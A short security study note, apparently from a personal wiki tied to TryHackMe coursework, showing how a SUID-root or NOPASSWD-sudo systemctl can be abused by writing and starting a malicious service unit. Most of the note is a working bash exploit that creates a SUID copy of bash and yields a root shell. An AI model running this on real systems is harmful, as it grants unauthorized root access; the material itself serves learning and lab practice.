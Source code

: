 # Exploiting "systemctl"

author:: Nathan Acks  
date:: 2021-11-03

If systemctl is SUID root, then a malicious service file can easily be abused to create a root shell.

```bash
FILE=`mktemp -u`
echo "[Service]" >> $FILE.service
echo "Type=oneshot" >> $FILE.service
echo "ExecStart=/bin/cp /bin/bash $FILE.sh" >> $FILE.service
echo "ExecStart=/bin/chmod +xs $FILE.sh" >> $FILE.service
echo "[Install]" >> $FILE.service
echo "WantedBy=multi-user.target" >> $FILE.service
systemctl link $FILE.service
systemctl start $FILE.service
$FILE.sh -p # Root!
```

Even if systemctl is not SUID root, so long as you have NOPASSWD sudo access to it this trick will work.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
